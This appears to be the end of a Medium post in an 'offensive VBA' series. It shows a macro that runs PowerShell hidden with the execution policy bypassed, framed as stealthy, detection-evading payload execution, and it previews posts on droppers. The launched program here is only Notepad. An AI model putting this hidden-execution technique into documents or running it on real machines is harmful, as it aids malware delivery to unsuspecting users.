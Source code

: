 ```
Sub inMemExec()
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command ""[System.Diagnostics.Process]::Start(notepad.exe)""" , 0, True
End Sub
```

#### Step-by-Step Execution

1. **Create** `WScript.Shell` **Object**



- `Set objShell = CreateObject("WScript.Shell")`

> `objShell.Run "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command ""[System.Diagnostics.Process]::Start(notepad.exe)""" , 0, True`

- `powershell.exe` : Executes PowerShell.
- `-NoProfile` : Prevents loading the PowerShell profile (**faster execution, less detection**).
- `-ExecutionPolicy Bypass:`**Bypasses script execution restrictions**.

`[System.Diagnostics.Process]::Start("notepad.exe")`

- Uses **.NET’s System.Diagnostics** to launch Notepad.
- Executes **without spawning a PowerShell window** (**stealthier execution**).
- `0` : Runs in hidden mode.
- `True` : Runs synchronously.

* * *

### Next Steps in the Malicious Macro Series

Now that we’ve covered **VBA basics**, upcoming topics will explore:

1. **Encoded Droppers** (Payload delivery techniques)
2. **PowerShell Droppers** (Executing hidden commands)
3. **Auto-Removing Droppers** (Evading detection)

Stay tuned.

By [Moataz Osama](https://medium.com/@mezo512) on [April 13, 2025](https://medium.com/p/66b25e1b4bad).

[Canonical link](https://medium.com/@mezo512/offensive-vba-series-mastering-vbs-scripts-for-payload-execution-66b25e1b4bad)

Exported from [Medium](https://medium.com) on August 26, 2025.